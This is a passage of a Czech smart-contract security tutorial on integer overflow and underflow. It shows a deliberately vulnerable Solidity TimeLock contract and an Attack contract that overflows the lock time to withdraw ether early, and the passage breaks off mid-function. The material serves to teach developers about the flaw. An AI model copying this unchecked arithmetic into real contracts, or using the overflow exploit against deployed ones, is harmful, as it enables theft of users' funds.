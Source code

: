 Podtečení celého čísla se děje ze stejných důvodů: výsledek aritmetické operace klesne pod přijatelný rozsah. Pokud byste například zkusili snížit hodnotu `0` v `uint8`, výsledek by se jednoduše přetočil na maximální reprezentovatelnou hodnotu (`255`).

Přetečení i podtečení celých čísel může vést k neočekávaným změnám proměnných stavu kontraktu a způsobit neplánovanou exekuci. Níže je uveden příklad, jak může útočník zneužít aritmetické přetečení ve smart kontraktu k provedení neplatné operace:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
```